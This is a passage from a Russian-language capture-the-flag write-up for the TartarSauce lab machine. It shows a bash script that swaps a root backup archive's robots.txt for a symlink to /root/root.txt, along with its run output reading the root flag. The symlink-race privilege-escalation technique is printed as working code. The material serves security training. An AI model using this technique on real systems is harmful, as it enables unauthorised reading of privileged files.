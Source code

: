 ```bash
# Копируем архив в /dev/shm
echo '[*] File changed. Сopying to /dev/shm...'
cp ${curr} ${wd}
sleep 1

# Получаем basename из пути
fn=/$(basename ${curr})

# Распаковываем
tar -zxf ${wd}${fn} -C ${wd}

# Заменяем robots.txt на мягкую ссылку до root.txt
rm ${wd}${robotstxt}
ln -sv ${roottxt} ${wd}${robotstxt}

# Удаляем старый архив
rm ${wd}${fn}

# Создаем новый архив
chmod -R a+x ${wd}/var
tar -czf ${wd}${fn} var

# Кладем новый архив на место старого
mv ${wd}${fn} ${curr}

# Очищаем лишнее
rm -rf ${wd}/var

# Ждем обновления лога с ошибками
echo '[*] Waiting for error log to update...'
tail -f ${errlog}
```

#### root.txt
Грузим написанный скрипт на жертву, запускаем, немного ждем и, о, счастье, имеем флаг суперпользователя:
```text
onuma@TartarSauce:/dev/shm$ ./.tartarsauce_file_read.sh
[*] Waiting for archive filename to change...
[*] File changed. Сopying to /dev/shm...
'/dev/shm/var/www/html/robots.txt' -> '/root/root.txt'
[*] Waiting for error log to update...
Only in /var/www/html/webservices/wp/wp-includes/js: wp-list-revisions.min.js
Only in /var/www/html/webservices/wp/wp-includes/js: wp-lists.js
Only in /var/www/html/webservices/wp/wp-includes/js: wp-lists.min.js
Only in /var/www/html/webservices/wp/wp-includes/js: wp-sanitize.js
Only in /var/www/html/webservices/wp/wp-includes/js: wp-util.min.js
Only in /var/www/html/webservices/wp/wp-includes/js: zxcvbn-async.min.js
Only in /var/www/html/webservices/wp/wp-includes/js: zxcvbn.min.js
Only in /var/www/html/webservices/wp: wp-load.php
Only in /var/www/html/webservices/wp: wp-login.php
Only in /var/www/html/webservices/wp: wp-settings.php
------------------------------------------------------------------------
Integrity Check Error in backup last ran :  Thu Nov  1 15:14:03 EDT 2018
------------------------------------------------------------------------
/var/tmp/.bc325e2428054e189ea6220a02680df698c47bf9
diff -r /var/www/html/robots.txt /var/tmp/check/var/www/html/robots.txt
1,7c1
< User-agent: *
< Disallow: /webservices/tar/tar/source/
< Disallow: /webservices/monstra-3.0.4/
< Disallow: /webservices/easy-file-uploader/
< Disallow: /webservices/developmental/
```
